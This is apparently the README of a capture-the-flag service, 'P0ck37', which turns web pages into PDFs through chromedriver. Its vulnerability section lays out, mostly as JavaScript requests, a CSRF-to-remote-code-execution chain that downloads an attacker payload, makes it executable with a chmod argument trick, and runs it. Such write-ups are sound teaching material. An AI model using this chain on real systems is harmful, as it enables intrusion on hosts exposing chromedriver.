 # P0ck37

## Description


P0ck37 is a service that allows downloading web pages to pdf files, very similar to [Pocket](https://getpocket.com/).
The service consists of two components: the web application and chromedriver service. The web application uses chromedriver service to convert web pages to pdfs using a Google Chrome web browser.

## Architecture

The only known option to configure chromedriver to handle remote requests from the application is by using `--whitelisted-ips=` option. But this option is known to be vulnerable to the CSRF attack via DNS rebinding.

To not use this option there was written a small wrapper on Go that proxies all requests to local chromedriver.


## Flags

Flags are pdf files stored in the directory `/data`.

## Vulns

The wrapper for the chromedriver is vulnerable to the CSRF attack too. And it allows achieving a remote command execution via the running chromedriver.

The attack consists of the three steps:

0. Through the main functionality of the service ask chromedriver to open an attacker's webpage in chrome.
1. Configure chrome to download files to a specific folder (`/tmp`).
2. Download a payload file to the location known to the attacker.
3. Make this payload file executable.
4. Execute it.

The initial step could be done by exploiting a CSRF attack. This could be done by the following POST request:
```
var caps = {
  "browserName": "chrome",
  "goog:chromeOptions": {
    "args":["--disable-web-security", "--no-sandbox", "--app=<URL of the next stage>"],
    "prefs": {
      "download.default_directory": "/tmp",
      "safebrowsing.enabled": "false"
    }
  }
};

var opts = {
  "desiredCapabilities": caps,
  "capabilities": {
    "firstMatch": [caps]
  }
};

var req = new XMLHttpRequest();
req.open('POST', 'http://127.0.0.1:4444/wd/hub/session');
req.setRequestHeader('Content-Type', 'text/plain');
req.send(JSON.stringify(opts));
</script>
```

After execution of this script chromedriver will run a new Google Chrome instance with disabled security settings (`--disable-web-security`). The location for downloading files will be `/tmp` (it is controlled by the `download.default_directory` setting). And this new browser instance will open another URL controlled by the attacker (`--app=<URL>` chromedriver option).

The next step is to download payload to the filesystem. This could be done by the following javascript:
```
link.href = '<URL of the payload>';
document.body.appendChild(link);

// This click will trigger an automatic file download to the /tmp directory
link.click();
document.body.removeChild(link);
delete link;
```

To make this payload file executable the attacker could ask chromedriver to execute `chmod` via the following POST request:
```
<script>
var req = new XMLHttpRequest();
req.open('POST', 'http://127.0.0.1:4444/wd/hub/session');
req.setRequestHeader('Content-Type', 'text/plain');

var opts = {
  "binary":"/bin/chmod",
  "args":["-w+x", "=", "--unknown"],
  "prefs": {"useAutomationExtension": false},
  "excludeSwitches":["disable-client-side-phishing-detection","enable-logging","log-level","password-store","allow-pre-commit-input","disable-background-networking","disable-default-apps","disable-hang-monitor","disable-popup-blocking","disable-prompt-on-repost","disable-sync","enable-automation","enable-blink-features","no-first-run","no-service-autorun","test-type","use-mock-keychain"]
};

var caps = {
  "desiredCapabilities":{
    "browserName":"chrome",
    "goog:chromeOptions": opts
  },
  "capabilities":{
    "firstMatch":[
      {
        "browserName":"chrome",
        "goog:chromeOptions": opts
      }
    ]
  }
};

req.send(JSON.stringify(caps));
</script>
```

The main trick here is the name of the payload: it should start with `--`. It will ask a `chmod` to ignore all other chromedriver options and successfully make the payload file executable.

And the last step is to execute the payload file. This could be done by the following POST request:
```
<script>
var req = new XMLHttpRequest();
req.open('POST', 'http://127.0.0.1:4444/wd/hub/session');
req.setRequestHeader('Content-Type', 'text/plain');

var opts = {
  "binary":"/tmp/--unknown"
};

var caps = {
  "desiredCapabilities":{
    "browserName":"chrome",
    "goog:chromeOptions": opts
  },
  "capabilities":{
    "firstMatch":[
      {
        "browserName":"chrome",
        "goog:chromeOptions": opts
      }
    ]
  }
};

req.send(JSON.stringify(caps));
</script>
```
